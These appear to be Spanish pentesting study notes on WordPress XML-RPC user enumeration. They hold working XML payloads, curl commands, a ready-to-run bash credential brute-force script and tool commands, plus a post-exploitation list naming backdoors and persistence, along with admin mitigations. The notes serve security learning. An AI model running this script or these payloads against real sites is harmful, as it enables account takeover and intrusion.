


# 🔍 Enumeración de Gestores de Contenido (CMS)

> [!info] CMS - Content Management System
> Los gestores de contenido son aplicaciones web que permiten crear, editar y administrar contenido digital. Son objetivos comunes en pentesting debido a su amplia adopción y superficie de ataque.

---

## 📋 Tabla de Contenidos
- [WordPress](#wordpress)
  - [Enumeración de Usuarios con XML-RPC](#enumeración-de-usuarios-con-xml-rpc)
  - [Archivos XML para Explotación](#archivos-xml-para-explotación)
  - [Automatización del Proceso](#automatización-del-proceso)
- [Herramientas Adicionales](#herramientas-adicionales)
- [Referencias](#referencias)

---

## 🎯 WordPress

WordPress es el CMS más popular del mundo, utilizado en más del 40% de los sitios web. Esta popularidad lo convierte en un objetivo frecuente para ataques.



### 🔐 Enumeración de Usuarios con XML-RPC

XML-RPC es una API en WordPress que permite la comunicación remota con el sitio. El archivo `xmlrpc.php` ubicado en la raíz del sitio web es el punto de entrada para estas solicitudes.

> [!warning] Implicaciones de seguridad
> XML-RPC está habilitado por defecto en muchas instalaciones de WordPress y puede ser utilizado para:
> - Enumerar usuarios válidos
> - Realizar ataques de fuerza bruta
> - Ejecutar múltiples autenticaciones en una sola solicitud (amplificación)

#### Verificación de XML-RPC

Primero debemos verificar si XML-RPC está habilitado en el sitio objetivo:

```bash
# Comprobar si xmlrpc.php está disponible
curl -s -X POST http://<IP>/xmlrpc.php
```

**Respuesta típica si está habilitado:**
```
XML-RPC server accepts POST requests only.
```

### 📄 Archivos XML para Explotación

Para interactuar con XML-RPC, necesitamos crear archivos XML específicos:

#### 1. Enumeración de métodos disponibles (`method_enum.xml`)

```xml
<?xml version="1.0" encoding="utf-8"?>
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

Ejecución:
```bash
curl -X POST http://<IP>/xmlrpc.php -d @method_enum.xml
```

> [!example] Salida esperada
> La respuesta incluirá una lista de métodos disponibles, incluyendo:
> - `wp.getUsersBlogs`
> - `system.listMethods`
> - `wp.getUsers`
> - etc.

#### 2. Fuerza bruta de autenticación (`brute_force.xml`)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value><string>admin</string></value></param>
<param><value><string>password123</string></value></param>
</params>
</methodCall>
```

Ejecución:
```bash
curl -X POST http://<IP>/xmlrpc.php -d @brute_force.xml
```

**Posibles respuestas:**
- Error 403: Credenciales incorrectas
- Listado de blogs: Credenciales correctas

### 🤖 Automatización del Proceso

> [!tip] Script de automatización
> Puedes crear un script en bash que automatice el proceso de fuerza bruta contra XML-RPC:

```bash
#!/bin/bash
# wp-xmlrpc-brute.sh

target="$1"
userlist="$2"
passlist="$3"

if [[ $# -ne 3 ]]; then
    echo "Uso: $0 <URL> <usuarios.txt> <passwords.txt>"
    exit 1
fi

check_xmlrpc() {
    response=$(curl -s -X POST "$target/xmlrpc.php")
    if [[ $response == *"XML-RPC server accepts POST requests only"* ]]; then
        echo "[+] XML-RPC está habilitado!"
        return 0
    else
        echo "[-] XML-RPC no está disponible"
        return 1
    fi
}

brute_force() {
    user="$1"
    pass="$2"
    
    xml_data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value><string>$user</string></value></param>
<param><value><string>$pass</string></value></param>
</params>
</methodCall>"

    response=$(curl -s -X POST "$target/xmlrpc.php" -d "$xml_data")
    
    if [[ $response != *"faultCode"* ]]; then
        echo "[+] ÉXITO: Usuario: $user | Contraseña: $pass"
        return 0
    fi
    return 1
}

# Verificar XML-RPC
check_xmlrpc || exit 1

# Iniciar fuerza bruta
echo "[*] Iniciando ataque de fuerza bruta..."
while IFS= read -r user; do
    while IFS= read -r pass; do
        echo -ne "[*] Probando $user:$pass                    \r"
        brute_force "$user" "$pass" && break
    done < "$passlist"
done < "$userlist"
```

---

## 🛠️ Herramientas Adicionales

| Herramienta | Descripción | Uso para WordPress |
|-------------|-------------|-------------------|
| **WPScan** | Escáner específico para WordPress | `wpscan --url http://<IP> --enumerate u` |
| **Metasploit** | Framework de explotación | `use auxiliary/scanner/http/wordpress_xmlrpc_login` |
| **Burp Suite** | Proxy interceptor | Capturar y modificar solicitudes a xmlrpc.php |
| **Hydra** | Herramienta de fuerza bruta | `hydra -L users.txt -P pass.txt <IP> http-post-form` |

> [!info] Otras técnicas de enumeración
> Además de XML-RPC, también puedes enumerar usuarios de WordPress a través de:
> 1. **Autores de publicaciones**: `/author/`
> 2. **API REST**: `/wp-json/wp/v2/users`
> 3. **IDs de usuario en URLs**: `/?author=1`
> 4. **Feed RSS**: `/feed/`

---

## 🔄 Pasos Posteriores

Una vez identificados los usuarios y posibles credenciales, puedes proceder con:



1. **Acceso al panel de administración**: `/wp-admin` o `/wp-login.php`
2. **Explotación de privilegios**: Instalación de plugins maliciosos, modificación de temas
3. **Establecimiento de persistencia**: Backdoors, usuarios adicionales
4. **Movimiento lateral**: Acceso a la base de datos, archivos del servidor

> [!warning] Mitigación para administradores
> - Deshabilitar XML-RPC si no se utiliza: `add_filter('xmlrpc_enabled', '__return_false');`
> - Implementar limitación de intentos de inicio de sesión
> - Usar nombres de usuario no predecibles
> - Habilitar autenticación de dos factores

---

## 📚 Referencias

- [[Enumeracion y Explotacion]] - Técnicas generales
- Métodos de acceso al sistema:
  - [[Foward Shell]]
  - [[Reverse Shell]]
  - [[Bind Shell]]
- Conceptos relacionados:
  - [[Payload]]
  - [[Explotacion]]

> [!success] Consejo profesional
> Siempre documenta tus hallazgos durante la enumeración de WordPress. Los usuarios válidos, versiones de plugins y temas pueden ser cruciales para encontrar vulnerabilidades específicas en etapas posteriores del pentesting.